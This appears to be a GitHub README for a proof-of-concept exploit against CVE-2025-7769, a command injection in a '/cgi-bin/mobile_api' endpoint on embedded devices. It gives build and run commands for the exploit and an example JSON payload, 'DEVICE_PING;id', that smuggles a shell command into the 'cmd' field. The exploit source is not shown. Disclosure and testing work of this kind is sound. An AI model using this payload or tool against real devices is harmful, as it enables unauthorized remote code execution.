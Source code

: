 # CVE-2025-7769 – Remote Command Injection in mobile_api

## Description :

This repository contains a Proof‑of‑Concept (PoC) exploit for **CVE‑2025‑7769**, a critical remote **Command Injection** vulnerability found in certain embedded systems or network appliances exposing the `/cgi-bin/mobile_api` endpoint.

The vulnerability is triggered by injecting OS commands via the `cmd` JSON key, where unfiltered input is concatenated directly into a system call, allowing full remote code execution (RCE) on the device.

## References :
- NVD Entry: https://nvd.nist.gov/vuln/detail/CVE-2025-7769

## Usage :

```
gcc exploit.c argparse.c -o CVE-2025-7769 -lcurl
./CVE-2025-7769 -i 10.0.2.15 -p 80 -v
Replace 10.0.2.15 with the target IP.

Use -u http://target.com if you want to pass a full base URL instead of IP/port.

Example Payload :

{
  "cmd": "DEVICE_PING;id",
  "dev": 2,
  "ver": 1
}
```
## License :
MIT License



